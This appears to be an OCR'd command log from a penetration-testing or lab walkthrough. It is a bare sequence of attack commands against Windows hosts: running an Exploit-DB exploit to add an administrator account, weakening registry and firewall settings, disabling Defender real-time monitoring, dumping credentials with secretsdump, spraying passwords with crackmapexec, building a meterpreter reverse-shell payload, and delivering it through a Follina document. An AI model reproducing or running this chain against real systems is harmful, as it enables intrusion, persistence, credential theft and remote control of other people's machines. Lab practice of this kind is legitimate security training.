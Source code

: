 ```
https://www.exploit-db.com/exploits/47799

searchsploit 47799

locate 47799

cp /usr/share/exploitdb/exploits/windows/remote/47799.txt ./

nano 47799.txt

mv 47799.txt freesploit.py

python3 freesploit.py broadcast hostname

python3 freesploit.py 10.65.1.40 'net user slayer hunter2 /add'

python3 freesploit.py 10.65.1.40 'net localgroup Administrators slayer /add'

python3 smbclient.py slayer@broadcast

python3 freesploit.py 10.65.1.40 'reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d "1" /f'

python3 freesploit.py broadcast "powershell Enable-PSRemoting -Force"

evil-winrm -i broadcast -u slayer

Get-MpComputerStatus

Set-MpPreference -DisableRealtimeMonitoring $true

Get-MpComputerStatus

python3 secretsdump.py slayer@broadcast

crackmapexec smb ./kinetic-targets.txt -u ./bcast-users.txt -p ./bcast-pass.txt --no-bruteforce

python3 smbclient.py kinetic/yarty@exodus

msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4222 -f exe > ms_4222.exe

python3 smbclient.py kinetic/yarty@exodus

cd Workflow

put /opt/kinetic/ms_4222.exe

python3 follina.py -m binary -b '
\\
localhost\c$\Workflow\ms_4222.exe
' -t docx -H xxx -u xxx

nmap exodus -Pn -p22,5985,3389

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

## FemmeFatale to DCARC
```